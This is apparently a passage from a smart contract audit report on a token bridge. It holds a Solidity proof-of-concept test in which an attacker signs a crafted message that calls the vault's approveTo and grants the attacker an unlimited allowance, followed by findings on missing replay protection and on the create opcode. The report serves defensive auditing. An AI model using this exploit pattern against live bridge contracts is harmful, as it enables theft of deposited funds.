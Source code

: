 **Proof of Concepts**

Add the following to `L1TokenBridge.t.sol`. 

This test shows an attacker creating a signature with a malicious payload, which calls `approveTo` and gives the attacker a full allowance to the vault's funds.

```solidity
    function test_audit_lowLevelCall() public {
        address attacker = makeAddr("attacker");
        bytes memory message = abi.encode(
            address(vault), // target
            0, // value
            abi.encodeCall(L1Vault.approveTo, (attacker, type(uint256).max)) // data
        );
        (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);
        tokenBridge.sendToL1(v, r, s, message);
        assertEq(token.allowance(address(vault), attacker), type(uint256).max);
    }
```


**Recommended mitigation** Change the visibility of `sendToL1` to `internal` so that it can only be called by `withdrawTokensToL1`.

### [M-2] Missing Replay Protection in `Deposit` Event

**Description** The `Deposit` event in `L1BossBridge.sol#L77` does not include replay protection mechanisms, such as a nonce or chain ID.

```solidity
    function depositTokensToL2(address from, address l2Recipient, uint256 amount) external whenNotPaused {
        // ...
        // Our off-chain service picks up this event and mints the corresponding tokens on L2
>>>     emit Deposit(from, l2Recipient, amount);
    }
```

This omission could potentially confuse off-chain services that track these events, and may lead to replay attacks if not handled carefully off-chain.

**Impact** Similar to the signature replay vulnerability, the lack of replay protection in the `Deposit` event could lead to the double-counting of deposits or other accounting errors off-chain.

**Recommended mitigation** Add a `nonce` and `chainId` to the `Deposit` event to ensure each deposit is unique and can be tracked across different chains.

### [M-3] `create` Opcode May Behave Differently on L2

**Description** The `deployToken` function in `L1BossBridge.sol#L25` uses the `create` opcode to deploy token contracts.

```solidity
    function deployToken(string memory symbol, bytes memory contractBytecode) public onlyOwner returns (address addr) {
        assembly {
>>>         addr := create(0, add(contractBytecode, 0x20), mload(contractBytecode))
        }
        s_tokenToAddress[symbol] = addr;
        emit TokenDeployed(symbol, addr);
    }
```
